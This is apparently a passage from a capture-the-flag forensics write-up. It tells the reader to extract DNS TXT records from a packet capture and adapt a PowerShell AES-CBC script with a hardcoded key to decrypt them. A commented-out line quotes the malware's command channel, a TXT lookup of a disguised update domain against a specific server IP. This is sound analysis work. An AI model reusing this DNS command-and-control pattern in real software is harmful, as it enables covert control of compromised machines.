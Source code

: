   
filter out all `TXT` records in the PCAP file, then put into an array and modify the powershell code in order to run the decryption.  

```powershell
function Create-AesManagedObject($key, $IV) {  
    $aesManaged = New-Object "System.Security.Cryptography.AesManaged"  
    $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC  
    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::Zeros  
    $aesManaged.BlockSize = 128  
    $aesManaged.KeySize = 256  
    if ($IV) {  
        if ($IV.getType().Name -eq "String") {  
            $aesManaged.IV = [System.Convert]::FromBase64String($IV)  
       
        }  
        else {  
            $aesManaged.IV = $IV  
       
  
        }  
    }  
    if ($key) {  
  
        if ($key.getType().Name -eq "String") {  
            $aesManaged.Key = [System.Convert]::FromBase64String($key)  
        }  
        else {  
            $aesManaged.Key = $key  
        }  
    }  
    $aesManaged  
}  
  
function Create-AesKey() {  
   
    $aesManaged = Create-AesManagedObject $key $IV  
    [System.Convert]::ToBase64String($aesManaged.Key)  
}  
  
function Encrypt-String($key, $unencryptedString) {  
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($unencryptedString)  
    $aesManaged = Create-AesManagedObject $key  
    $encryptor = $aesManaged.CreateEncryptor()  
    $encryptedData = $encryptor.TransformFinalBlock($bytes, 0, $bytes.Length);  
    [byte[]] $fullData = $aesManaged.IV + $encryptedData  
    $aesManaged.Dispose()  
    [System.BitConverter]::ToString($fullData).replace("-", "")  
}  
  
function Decrypt-String($key, $encryptedStringWithIV) {  
    $bytes = [System.Convert]::FromBase64String($encryptedStringWithIV)  
    $IV = $bytes[0..15]  
    $aesManaged = Create-AesManagedObject $key $IV  
    $decryptor = $aesManaged.CreateDecryptor();  
    $unencryptedData = $decryptor.TransformFinalBlock($bytes, 16, $bytes.Length - 16);  
    $aesManaged.Dispose()  
    [System.Text.Encoding]::UTF8.GetString($unencryptedData).Trim([char]0)  
}  
  
filter parts($query) { $t = $_; 0..[math]::floor($t.length / $query) | % { $t.substring($query * $_, [math]::min($query, $t.length - $query * $_)) } }  
$key = "a1E4MUtycWswTmtrMHdqdg=="  
_#$out = Resolve-DnsName -type TXT -DnsOnly windowsliveupdater.com -Server 147.182.172.189 | Select-Object -Property Strings;_  
```